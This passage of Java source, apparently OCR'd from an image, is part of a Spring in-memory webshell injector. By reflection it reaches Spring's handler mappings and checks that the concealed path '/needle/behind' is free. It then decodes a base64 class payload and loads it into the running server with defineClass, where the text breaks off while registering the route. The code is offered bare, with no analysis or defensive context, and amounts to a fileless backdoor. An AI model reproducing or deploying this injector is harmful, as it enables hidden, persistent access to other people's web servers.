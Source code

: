 ```java
        String webPath = "/needle/behind";
        try {
            Object requestAttributes = getMethodInvoke("org.springframework.web.context.request" +
                            ".RequestContextHolder",
                    "currentRequestAttributes", null, null);

            Object webApplicationContext = getMethodInvoke(requestAttributes, "getAttribute", new Class[]{String.class,
                            int.class},
                    new Object[]{
                            "org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0});

            Method getBean = getMethod("org.springframework.beans.factory.BeanFactory", "getBean", Class.class);
            Object requestMappingHandlerMapping = getBean.invoke(webApplicationContext, getClass("org.springframework.web.servlet.mvc" +
                    ".method.annotation" +
                    ".RequestMappingHandlerMapping"));
            Object abstractHandlerMethodMapping = getBean.invoke(webApplicationContext, getClass("org.springframework" +
                    ".web.servlet.handler.AbstractHandlerMethodMapping"));

            Method getMappingRegistry = getMethod("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping"
                    , "getMappingRegistry", null);
            Object mappingRegistry = getMappingRegistry.invoke(abstractHandlerMethodMapping);


            Map urlLookup = (Map) getField("org.springframework.web.servlet.handler" +
                            ".AbstractHandlerMethodMapping$MappingRegistry",
                    "urlLookup",mappingRegistry);


            Iterator urlIterator = urlLookup.keySet().iterator();
            while (urlIterator.hasNext()){
                String urlPath = (String) urlIterator.next();
                if (webPath.equals(urlPath)){
                    throw new Exception("path exists");
                }
            }

            byte[] codeBytes = new sun.misc.BASE64Decoder().decodeBuffer(classCode);
            Method m = null;
            try {
                m = ClassLoader.class.getDeclaredMethod("defineClass", new Class[]{String.class, byte[].class, int.class, int.class});
                m.setAccessible(true);
            } catch (Exception e) {
                throw new Exception("get defineClass error");
            }
            ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
            try {
                m.invoke(classLoader, new Object[]{targetClass, codeBytes, 0, codeBytes.length});
            } catch (Exception e) {
                throw new Exception("register targetClass error");
            }

            Method targetMethod = getClass(targetClass).getDeclaredMethods()[0];


            Class requestMethod = getClass("org.springframework.web.bind.annotation.RequestMethod");

```